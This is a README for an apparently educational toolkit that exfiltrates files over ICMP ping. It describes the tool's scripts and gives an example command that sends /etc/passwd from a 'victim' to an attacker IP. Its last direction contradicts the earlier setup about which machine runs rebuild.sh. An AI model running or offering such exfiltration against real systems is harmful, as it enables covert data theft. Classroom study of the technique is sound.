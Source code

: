 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over ping.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through data.dmp file.  
- rebuild.sh: This script runs pyarray, produces hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output.)

On the **VICTIM** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


